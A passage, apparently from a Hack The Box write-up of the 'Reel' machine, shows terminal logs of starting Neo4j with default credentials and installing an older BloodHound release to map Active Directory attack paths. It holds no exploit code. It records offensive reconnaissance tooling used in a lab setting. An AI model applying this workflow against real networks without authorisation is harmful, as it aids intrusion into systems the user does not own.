    2021-12-27 20:10:03.700+0000 INFO  Bolt enabled on localhost:7687.
    2021-12-27 20:10:04.423+0000 INFO  Remote interface available at http://localhost:7474/
    2021-12-27 20:10:04.428+0000 INFO  id: AC467907227285E4E491280BBC436619BBDF6A413FD78BD3F4BCB8455310E603
    2021-12-27 20:10:04.428+0000 INFO  name: system
    2021-12-27 20:10:04.428+0000 INFO  creationDate: 2021-12-27T20:10:02.593Z
    2021-12-27 20:10:04.428+0000 INFO  Started.
    
    
    

Then goto **http://127.0.0.1:7474** and login with credentials **neo4j:neo4j**

    
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools]
    → wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools]
    → mkdir Bloodhound
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools]
    → mv BloodHound-linux-x64.zip Bloodhound/
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools]
    → cd Bloodhound
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools/Bloodhound]
    → unzip BloodHound-linux-x64.zip
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools/Bloodhound]
    → ls -l
    total 100032
    drwxrwxr-x 5 nothing nothing      4096 Jul 15 20:13 BloodHound-linux-x64
    -rw-r--r-- 1 nothing nothing 102425633 Dec  8 05:47 BloodHound-linux-x64.zip
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [~/Tools/Bloodhound]
    → cd BloodHound-linux-x64
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [Tools/Bloodhound/BloodHound-linux-x64]
    → ls -l
    total 175752
    -rwxr-xr-x 1 nothing nothing 127561112 Jul 15 20:13 BloodHound
    -rw-r--r-- 1 nothing nothing    179981 Jul 15 20:13 chrome_100_percent.pak
    -rw-r--r-- 1 nothing nothing    321151 Jul 15 20:13 chrome_200_percent.pak
    -rwxr-xr-x 1 nothing nothing   6322128 Jul 15 20:13 chrome-sandbox
    -rw-r--r-- 1 nothing nothing  10505952 Jul 15 20:13 icudtl.dat
    -rwxr-xr-x 1 nothing nothing    243992 Jul 15 20:13 libEGL.so
    -rwxr-xr-x 1 nothing nothing   3103488 Jul 15 20:13 libffmpeg.so
    -rwxr-xr-x 1 nothing nothing   8948976 Jul 15 20:13 libGLESv2.so
    -rwxr-xr-x 1 nothing nothing   4488304 Jul 15 20:13 libvk_swiftshader.so
    -rwxr-xr-x 1 nothing nothing   8483376 Jul 15 20:13 libvulkan.so
    -rw-r--r-- 1 nothing nothing      1060 Jul 15 20:13 LICENSE
    -rw-r--r-- 1 nothing nothing   4710103 Jul 15 20:13 LICENSES.chromium.html
    drwxrwxr-x 2 nothing nothing      4096 Jul 15 20:13 locales
    drwxrwxr-x 3 nothing nothing      4096 Jul 15 20:13 resources
    -rw-r--r-- 1 nothing nothing   4835574 Jul 15 20:13 resources.pak
    -rw-r--r-- 1 nothing nothing     50591 Jul 15 20:13 snapshot_blob.bin
    drwxrwxr-x 2 nothing nothing      4096 Jul 15 20:13 swiftshader
    -rw-r--r-- 1 nothing nothing    170904 Jul 15 20:13 v8_context_snapshot.bin
    -rw-r--r-- 1 nothing nothing         5 Jul 15 20:13 version
    -rw-r--r-- 1 nothing nothing       107 Jul 15 20:13 vk_swiftshader_icd.json
    
    [ 10.10.16.9/23 ] [ /dev/pts/20 ] [Tools/Bloodhound/BloodHound-linux-x64]
    → sudo ln -s $(pwd)/BloodHound /usr/local/bin/bloodhound
    [sudo] password for nothing:
    
    

`   

Now this means that you need to install the bloodhound version that was available at the time when the box was released, so let's install the Bloodhound version from 2018: 
    
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → which bloodhound
    /usr/local/bin/bloodhound
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → rm /usr/local/bin/bloodhound
    rm: cannot remove '/usr/local/bin/bloodhound': Permission denied
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → sudo !!
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/HTB/Reel]
    → sudo rm /usr/local/bin/bloodhound
    [sudo] password for nothing:
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/Tools]
    → ls -lash
    total 12K
    4.0K drwxr-xr-x  3 nothing nothing 4.0K Dec 27 21:19 .
    4.0K drwxr-xr-x 28 nothing nothing 4.0K Mar 27 12:49 ..
    4.0K drwxr-xr-x  3 nothing nothing 4.0K Dec 27 21:19 Bloodhound
    
    [ 10.0.99.99/16 ] [ /dev/pts/2 ] [~/Tools]
    → rm -rf Bloodhound
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools]
    → wget https://github.com/BloodHoundAD/BloodHound/releases/download/2.0.4/BloodHound-linux-x64.zip
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools]
    → unzip BloodHound-linux-x64.zip
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools]
    → cd BloodHound-linux-x64
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools/BloodHound-linux-x64]
    → sudo ln -s $(pwd)/BloodHound /usr/local/bin/bloodhound
    [sudo] password for nothing:
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools/BloodHound-linux-x64]
    → which bloodhound
    /usr/local/bin/bloodhound
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools/BloodHound-linux-x64]
    → bloodhound
    bloodhound: error while loading shared libraries: libgconf-2.so.4: cannot open shared object file: No such file or directory
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools/BloodHound-linux-x64]
    → sudo apt install libgconf-2-4 -y
    Reading package lists... Done
    
    [ 10.10.16.2/23 ] [ /dev/pts/14 ] [~/Tools/BloodHound-linux-x64]
    → bloodhound
    Gtk-Message: 13:00:16.146: Failed to load module "gail"
    
    

Then we repeat the previous steps and see the result after uploading the acls.csv file:
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    

## **Conclusion**

Here we can see the progress graph :

